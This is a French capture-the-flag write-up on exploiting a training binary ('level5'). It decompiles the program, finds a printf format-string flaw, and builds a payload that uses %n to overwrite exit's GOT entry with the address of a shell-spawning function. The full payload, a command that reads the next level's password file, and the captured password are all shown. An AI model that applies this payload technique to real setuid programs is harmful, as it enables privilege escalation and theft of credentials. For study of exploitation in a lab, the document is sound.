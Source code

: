 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2045(level5) gid=2045(level5) groups=2045(level5),100(users)
/home/user/level5
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level4 :

```bash
$ ./level5
(waiting for input)
$ ./level5
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=ba35d828-02dc-44ac-a188-182a91119498) et en extrait une version probable du code :

```c
void o()
{
    system("/bin/sh");

    _exit(1);
}

void n()
{
    char buffer[512];

    fgets(buffer, 512, stdin);
    printf(buffer);

    exit(1);
}

int main()
{
    n();
}
```

Je note les choses suivante :

- `fgets()` est utilisé, et n'est donc pas vulnérable
- `printf()` est utilisé, probablement expoitable comme le `level3` et `level4`

Je note un buffer plus grand que ce que `fgets()` lit, mais dans le niveau précédent c'était sans intérêt et je ne m'y intéresserait donc pas ici également. J'estime que la source de vulnérabilité ici est encore `printf()` et qu'il me faut par conséquent appeller la fonction `o()` au travers de cette vulnérabilité, afin d'obtenir le shell et le `.pass` du niveau suivant par extension.

J'obtiens l'adresse de `o()` avec `gdb` :

```h
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp <---------- ici
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

J'ai donc un premier élément important pour mon payload : `0x080484a4` (adresse de la fonction `o()` dans la stack).

Ce qui diffère des précedents niveaux ici, c'est qu'il ne s'agit pas de changer la valeur d'une variable mais bien d'appeller une autre fonction. Je me renseigne sur internet sur les vulnérabilité possible en ce sens et tombe sur un type de vulnérabilité du nom de [Ret2Plt](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got).

Ce type de vulnérabilité exploite le passage entre le `PLT` et le `GOT`, vulgarisé, cela implique les choses suivante :

- Un programme en C n'est pas compilé avec la `libc`, afin d'alléger le poids des binaires, donc, lors de la compilation, ces calls sont attribués un pointeur vers la `PLT` (Procedure Linkage Table)
- Lors de l'exécution du programme, chaque 'call' dans le code qui pointe vers une fonction de la `libc` (par exemple `exit()`) va passer au travers d'un procédé de `dynamic linking`.
- Avant ce passage, et comme on peut l'observer dans le `disas o` de `gdb` au dessus, ces 'call' sont suffixés par `@plt`, ce qui indique au runtime d'aller chercher dans la `GOT` (Global Offset Table) à quelle fonction cela correspond.
- Après ce passage, ces 'call' sont résolus par la conjonction de la `PLT` et la `GOT` afin d'associer un 'call' dans le binaire compilé, a une fonction de la `libc`.

Il va être pour nous ici question de changer vers quoi :

```h
(gdb) disas n
Dump of assembler code for function n:
    ...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

`exit` pointe par son `plt`. Si nous pouvons "faire croire" à l'exécutable qu'`exit` est une fonction qui pointe vers `o()`, alors, au moment du `dynamic linking`, le programme résoudra que le call `exit` pointe vers la fonction `o()` et non la vraie fonction `exit` de la `libc`.

Pour construire un payload infecté qui effectue ce genre de shenaniganerie, ce dernier devra contenir :

- L'adresse de `o()`
- L'adresse `plt` de `exit()`

Je suis heurté a des problématiques similaire au précédents niveaux. Tout d'abord, le buffer est trop petit pour écrire les caractères avec `%n` dans un pointeur afin de changer son adresse, donc comme auparavent, je devrais utiliser l'astuce avec `%p` pour bypass la taille qui m'est allouée.

Le but du payload sera donc, je résume : de changer la valeur `@plt` vers quoi pointe `exit`.
Donner à `exit` comme valeur de pointeur, celle de l'adresse de `o()`.

Première étape, je trouve l'adresse '`plt`' de `exit` :

```h
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838 <----------------- ici
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

Je construit mon payload dans l'optique de l'exploiter comme au `level4`, en voici donc la première partie :

```python
python -c 'print("\x08\x04\x98\x38"[::-1])'
```

J'ai plus haut trouvé l'adresse de `o()` : `0x080484a4`. Il me faut la traduire en une valeur décimale afin de savoir la valeur de padding à utiliser dans l'astuce du format `%p`. J'utilise ce site : [RapidTables](https://www.rapidtables.com/convert/number/hex-to-decimal.html) et trouve : `134513828`.

Comme pour le précedent niveau, je soustrais 4 bytes à ce chiffre pour inclure les précédents 4 bytes déjà écrit de l'adresse `plt` d'`_exit`, et ajoute ça à mon payload :

```python
python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p")'
```

Il ne me reste plus qu'à utiliser l'exploit avec `%n` afin d'écrire tout ces caractères dans l'adresse d'`exit`.
Il me faut d'abord trouver avec l'astuce du `%x`, a quelle position se trouve cette adresse dans le contexte de la stack de `printf()` :

```bash
$ python -c 'print("a %x %x %x %x %x")' | ./level5
a 200 b7fd1ac0 b7ff37d0 78252061 20782520
                               ^
$ python -c 'print("b %x %x %x %x %x")' | ./level5
b 200 b7fd1ac0 b7ff37d0 78252062 20782520
                               ^
```

C'est donc ici le 4ème argument. Je peux donc conclure mon payload infecté :

```python
python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")'
```

Pour rappel sur les 3 précédents niveaux : ces exploits fonctionnent dû au fait que `printf()` lit le buffer que `fgets()` lui donne, qui vient de nous. Cela représente une vulnérabilité car nous pouvons exploiter les formatteur du type : `%n`. Etant donné que ces derniers fonctionnent sur les arguments passés à `printf()`, mais qu'aucun sont présents, nous pouvons donc effectivement arbitrairement changer des valeurs dans la stack.

J'essaye mon payload :

```bash
$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
... (134 millions d'espace de padding)
                                                        0x200 (comme pour le level 4, le premier argument de la stack est imprimé, ici 512, la taille du buffer passé en paramètre)
(puis, la clé est imprimé, ce qui implique que nous avons correctement réussis à exécuter o(), ce qui implique que nous avons correctement réussis à ré-écrire ce vers quoi exit() a été linké, ici, donc, o())
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

Autre sources utilisées :
https://www.airs.com/blog/archives/38 (20 parties ! ! !)
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc (très bon graphique qui illustre le payload inclus)

